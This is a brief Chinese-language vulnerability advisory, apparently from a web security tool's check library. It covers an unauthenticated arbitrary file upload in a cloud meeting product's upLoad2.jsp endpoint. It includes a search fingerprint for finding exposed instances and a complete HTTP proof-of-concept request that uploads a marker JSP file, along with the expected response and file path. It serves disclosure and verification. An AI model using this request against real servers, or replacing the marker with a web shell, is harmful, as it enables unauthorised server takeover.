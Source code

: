 ﻿# 好视通云会议 upLoad2.jsp 任意文件上传漏洞

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明： 好视通云会议/fm/systemConfig/upLoad2.jsp接口处存在任意文件上传漏洞，未经身份认证的攻击者可以通过此漏洞上传恶意后门文件，最终可获取服务器权限。

> 漏洞特征：app:"好视通-云会议"

> 验证脚本：HTTP

```
POST /fm/systemConfig/upLoad2.jsp HTTP/1.1
Content-Type: multipart/form-data; boundary=1515df1sdfdsfddfs
Accept-Encoding: gzip
 
--1515df1sdfdsfddfs
Content-Disposition: form-data; name="file"; filename="dudesuite.jsp"
Content-Type: application/octet-stream
 
<% out.print("dudesuite"); %>
--1515df1sdfdsfddfs--
```

> 响应代码特征：302

> 响应内容特征：

> 上传文件定位：/fm/upload/dudesuite.jsp

> 验证文件来源：Dude Suite Web Security Tools - https://www.dudesuite.cn - 转载请注明出处
